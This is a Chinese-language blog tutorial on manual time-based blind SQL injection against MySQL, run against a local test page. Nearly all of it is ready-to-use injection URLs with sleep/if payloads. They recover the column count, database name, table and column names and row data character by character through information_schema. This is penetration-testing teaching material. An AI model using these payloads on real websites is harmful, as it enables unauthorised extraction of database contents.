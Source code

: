 ```yaml
---
title: Mysql手工盲注(延时注入)
date: 2018-05-13 11:19:25
tags:
	- Mysql
	- 渗透测试
	- sql注入
	- hack
	- 盲注
categories: 渗透
---
```


![](http://p3ek8hcdl.bkt.clouddn.com/image/SQLinject.jpg)<!-- more -->
# Mysql手工盲注(延时注入)

盲注的核心是靠 if 判断来注入
```
length(xxxxx) 函数是统计字符串的长度

mid(str,1,3) 字符串截取

ORD() 转换成ascii码

if (条件,True,False);

sleep(n)

```
### 判断是否存在注入
```
http://127.0.0.1/sql.php?id=1
```
![](http://p3ek8hcdl.bkt.clouddn.com/image/f3cc1490325163.jpg)
```
http://127.0.0.1/sql.php?id=1%20or%20sleep(2)
```
![](http://p3ek8hcdl.bkt.clouddn.com/image/15601490325259.jpg)

### 暴当前的表有多少个字段：
```

http://127.0.0.1/sql.php?id=1%20union%20select%20sleep(2)        #请求时间不到一秒 说明不是1个字段

http://127.0.0.1/sql.php?id=1%20union%20select%201,sleep(2)        #请求时间不到一秒 说明不是2个字段

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(2)        #请求时间是2秒 说明是3个字段
```

### 获取数据库名长度：
```
http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20length(database())=1),5,0))   #请求时间不到五秒 说明数据库名长度不是1

一位一位试，中间过程省略
http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20length(database())=5),5,0))   #请求时间是五秒 说明数据库名长度是5
```
![](http://p3ek8hcdl.bkt.clouddn.com/image/799b1490326149.jpg)

### 获取数据库名：
```
http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),1,1)=%22a%22),5,0))     #请求时间不到五秒 说明数据库名第一位不是a

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),1,1)=%22b%22),5,0))      #请求时间不到五秒 说明数据库名第一位不是b

以此类推。。。。

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),1,1)=%22s%22),5,0))        #请求时间是五秒 说明数据库名第一位是s

然后慢慢猜解到第5位

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),2,1)=%22q%22),5,0))        #请求时间是五秒 说明数据库名第二位是q

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),3,1)=%22l%22),5,0))        #请求时间是五秒 说明数据库名第三位是l

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),4,1)=%22i%22),5,0))        #请求时间是五秒 说明数据库名第四位是i

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),5,1)=%22n%22),5,0))        #请求时间是五秒 说明数据库名第五位是n

这样就获取到数据库名是sqlin
```

```
当然了 这方法注入比较慢 比如有些数据库是特殊符号呢？那怎么办？一个一个符号猜解吗？
采用ORD函数进行ascii码来判断会快点

比如：

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((ORD((select%20mid(database(),1,1)))%3C120),5,0))   #小于120请求时间是五秒

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((ORD((select%20mid(database(),1,1)))%3C110),5,0))   #小于110请求时间不是五秒

说明数据库名第一位的ascii码值在110~120之间   
http://127.0.0.1/sql.php?id=1%20and%20sleep(if((ORD((select%20mid(database(),1,1)))=115),5,0))        #等于115请求时间是五秒
```
![](http://p3ek8hcdl.bkt.clouddn.com/image/d0091490327618.jpg)
115对应的是s   跟我们获取到的sqlin一样
其他四位也是一样的方法

### 获取表名长度：
```
http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(length(table_name)=4,5,0))%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1         #请求时间是五秒 说明表名长度是4
```

### 获取表名：
```
http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if((mid(table_name,1,1)=%22n%22),5,0))%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1         #请求时间是五秒 说明表名第一位是n

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if((mid(table_name,2,1)=%22e%22),5,0))%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1         #请求时间是五秒 说明表名第一位是e

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if((mid(table_name,3,1)=%22w%22),5,0))%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1         #请求时间是五秒 说明表名第一位是w

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if((mid(table_name,4,1)=%22s%22),5,0))%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1         #请求时间是五秒 说明表名第一位是s
```

### 获取表中的第一个字段长度：
```
http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(length(column_name)=2,5,0))%20from%20information_schema.columns%20where%20table_name=0x6E657773%20limit%200,1             #请求时间是五秒 说明表名第一个字段长度是2
```

### 获取表中的第一个字段名：
```
http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(mid(column_name,1,1)=%22i%22,5,0))%20from%20information_schema.columns%20where%20table_name=0x6E657773%20limit%200,1            #请求时间是五秒 说明表名第一个字段名第一位是i

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(mid(column_name,1,1)=%22d%22,5,0))%20from%20information_schema.columns%20where%20table_name=0x6E657773%20limit%200,1            #请求时间是五秒 说明表名第一个字段名第二位是d

得出表名第一个字段名是id
```
### 获取news表中id字段下的内容：
先猜内容长度

```
http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(length(id)=1,5,0))%20from%20news%20limit%200,1       #请求时间是五秒 说明内容长度是1

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(mid(id,1,1)=%221%22,5,0))%20from%20news%20limit%200,1       #请求时间是五秒 说明内容也是1
```

![](http://p3ek8hcdl.bkt.clouddn.com/image/032b1490329624.jpg)


### 补充
```
上面的语句查询其他表时会受到前面数据的影响
两个表admin，news
后面limit 0,1判断的就是第一个表admin   也就是猜第一位必须是a才返回true     后面limit 1,1的时候   猜第一位a和n都会返回true  其他false
```
查询其他表推荐语句
```
http://127.0.0.1/sqlin/sqltest.php?id=1%20and%20if((length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1))=4),sleep(5),0)
感觉应该是查询语句和sleep执行顺序的问题
```
获取其他同理

有错误的地方欢迎指正，共同进步。